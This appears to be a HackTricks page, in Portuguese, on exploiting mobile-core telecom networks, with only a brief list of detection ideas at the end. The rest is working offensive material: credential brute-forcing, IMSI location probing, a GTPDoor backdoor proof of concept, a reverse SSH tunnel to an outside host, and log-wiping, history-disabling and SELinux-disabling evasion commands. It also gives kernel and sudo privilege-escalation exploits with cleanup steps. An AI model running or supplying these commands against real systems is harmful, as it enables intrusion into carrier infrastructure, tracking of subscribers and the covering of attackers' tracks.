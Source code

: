 # Telecom Network Exploitation (GTP / Roaming Environments)

{{#include ../../banners/hacktricks-training.md}}

> [!NOTE]
> Protocolos de núcleo móvel (GPRS Tunnelling Protocol – GTP) frequentemente atravessam backbones de roaming GRX/IPX semi-confiáveis.  Como eles utilizam UDP simples com quase nenhuma autenticação, **qualquer ponto de acesso dentro de um perímetro de telecomunicações geralmente pode alcançar diretamente os planos de sinalização central**.  As seguintes notas coletam truques ofensivos observados na prática contra SGSN/GGSN, PGW/SGW e outros nós EPC.

## 1. Recon & Acesso Inicial

### 1.1  Contas OSS / NE Padrão
Um conjunto surpreendentemente grande de elementos de rede de fornecedores vem com usuários SSH/Telnet codificados como `root:admin`, `dbadmin:dbadmin`, `cacti:cacti`, `ftpuser:ftpuser`, …  Uma lista de palavras dedicada aumenta dramaticamente o sucesso de força bruta:
```bash
hydra -L usernames.txt -P vendor_telecom_defaults.txt ssh://10.10.10.10 -t 8 -o found.txt
```
Se o dispositivo expuser apenas um VRF de gerenciamento, faça um pivot através de um host de salto primeiro (veja a seção «SGSN Emu Tunnel» abaixo).

### 1.2  Descoberta de Host dentro do GRX/IPX
A maioria dos operadores de GRX ainda permite **ICMP echo** através da espinha dorsal. Combine `masscan` com as sondas UDP `gtpv1` integradas para mapear rapidamente os ouvintes GTP-C:
```bash
masscan 10.0.0.0/8 -pU:2123 --rate 50000 --router-ip 10.0.0.254 --router-mac 00:11:22:33:44:55
```
## 2. Enumerando Assinantes – `cordscan`

A seguir, a ferramenta Go cria pacotes de **GTP-C Create PDP Context Request** e registra as respostas. Cada resposta revela o atual **SGSN / MME** que atende o IMSI consultado e, às vezes, o PLMN visitado pelo assinante.
```bash
# Build
GOOS=linux GOARCH=amd64 go build -o cordscan ./cmd/cordscan

# Usage (typical):
./cordscan --imsi 404995112345678 --oper 40499 -w out.pcap
```
Principais flags:
- `--imsi` IMSI do assinante alvo
- `--oper` Home / HNI (MCC+MNC)
- `-w`      Escrever pacotes brutos em pcap

Constantes importantes dentro do binário podem ser corrigidas para ampliar as varreduras:
```
pingtimeout       = 3   // seconds before giving up
pco               = 0x218080
common_tcp_ports  = "22,23,80,443,8080"
```
## 3. Execução de Código sobre GTP – `GTPDoor`

`GTPDoor` é um pequeno serviço ELF que **vincula UDP 2123 e analisa cada pacote GTP-C recebido**. Quando a carga útil começa com uma tag pré-compartilhada, o restante é descriptografado (AES-128-CBC) e executado via `/bin/sh -c`. O stdout/stderr são exfiltrados dentro de mensagens **Echo Response** para que nenhuma sessão externa seja criada.

Pacote PoC mínimo (Python):
```python
import gtpc, Crypto.Cipher.AES as AES
key = b"SixteenByteKey!"
cmd = b"id;uname -a"
enc = AES.new(key, AES.MODE_CBC, iv=b"\x00"*16).encrypt(cmd.ljust(32,b"\x00"))
print(gtpc.build_echo_req(tag=b"MAG1C", blob=enc))
```
Detecção:
* qualquer host enviando **Solicitações de Eco desbalanceadas** para IPs do SGSN
* sinalizador da versão GTP definido como 1 enquanto o tipo de mensagem = 1 (Eco) – desvio da especificação

## 4. Pivotando Através do Core

### 4.1  `sgsnemu` + SOCKS5
`OsmoGGSN` fornece um emulador de SGSN capaz de **estabelecer um contexto PDP em direção a um GGSN/PGW real**. Uma vez negociado, o Linux recebe uma nova interface `tun0` acessível a partir do par de roaming.
```bash
sgsnemu -g 10.1.1.100 -i 10.1.1.10 -m 40499 -s 404995112345678 \
-APN internet -c 1 -d
ip route add 172.16.0.0/12 dev tun0
microsocks -p 1080 &   # internal SOCKS proxy
```
Com o hair-pinning adequado do firewall, este túnel contorna VLANs apenas de sinalização e te leva diretamente ao **data plane**.

### 4.2  Túnel Reverso SSH pela Porta 53
O DNS está quase sempre aberto em infraestruturas de roaming. Exponha um serviço SSH interno para o seu VPS escutando na :53 e retorne mais tarde de casa:
```bash
ssh -f -N -R 0.0.0.0:53:127.0.0.1:22 user@vps.example.com
```
Verifique se `GatewayPorts yes` está habilitado no VPS.

## 5. Canais Ocultos

| Canal | Transporte | Decodificação | Notas |
|-------|------------|---------------|-------|
| ICMP – `EchoBackdoor` | ICMP Echo Req/Rep | chave de 4 bytes + pedaços de 14 bytes (XOR) | ouvinte passivo puro, sem tráfego de saída |
| DNS – `NoDepDNS` | UDP 53 | XOR (chave = `funnyAndHappy`) codificado em octetos de registro A | observa subdomínio `*.nodep` |
| GTP – `GTPDoor` | UDP 2123 | blob AES-128-CBC em IE privado | mistura-se com conversas legítimas de GTP-C |

Todos os implantes implementam watchdogs que **timestomp** seus binários e reanimam se travarem.

## 6. Cheatsheet de Evasão de Defesa
```bash
# Remove attacker IPs from wtmp
utmpdump /var/log/wtmp | sed '/203\.0\.113\.66/d' | utmpdump -r > /tmp/clean && mv /tmp/clean /var/log/wtmp

# Disable bash history
export HISTFILE=/dev/null

# Masquerade as kernel thread
echo 0 > /proc/$$/autogroup   # hide from top/htop
printf '\0' > /proc/$$/comm    # appears as [kworker/1]

touch -r /usr/bin/time /usr/bin/chargen   # timestomp
setenforce 0                              # disable SELinux
```
## 7. Escalação de Privilégios em NE Legado
```bash
# DirtyCow – CVE-2016-5195
gcc -pthread dirty.c -o dirty && ./dirty /etc/passwd

# PwnKit – CVE-2021-4034
python3 PwnKit.py

# Sudo Baron Samedit – CVE-2021-3156
python3 exploit_userspec.py
```
Dica de limpeza:
```bash
userdel firefart 2>/dev/null
rm -f /tmp/sh ; history -c
```
## 8. Ferramentas

* `cordscan`, `GTPDoor`, `EchoBackdoor`, `NoDepDNS` – ferramentas personalizadas descritas nas seções anteriores.
* `FScan` : varreduras TCP de intranet (`fscan -p 22,80,443 10.0.0.0/24`)
* `Responder` : LLMNR/NBT-NS WPAD malicioso
* `Microsocks` + `ProxyChains` : pivotagem leve SOCKS5
* `FRP` (≥0.37) : travessia NAT / ponte de ativos

---
## Ideias de Detecção
1. **Qualquer dispositivo que não seja um SGSN/GGSN estabelecendo Solicitações de Criação de Contexto PDP**.
2. **Portas não padrão (53, 80, 443) recebendo handshakes SSH** de IPs internos.
3. **Solicitações de Eco frequentes sem Respostas de Eco correspondentes** – podem indicar sinais do GTPDoor.
4. **Alta taxa de tráfego de resposta de eco ICMP com campos de identificador/sequência grandes e não nulos**.

## Referências

- [Palo Alto Unit42 – Infiltração de Redes de Telecomunicações Globais](https://unit42.paloaltonetworks.com/infiltration-of-global-telecom-networks/)
- 3GPP TS 29.060 – Protocolo de Tunelamento GPRS (v16.4.0)
- 3GPP TS 29.281 – GTPv2-C (v17.6.0)

{{#include ../../banners/hacktricks-training.md}}
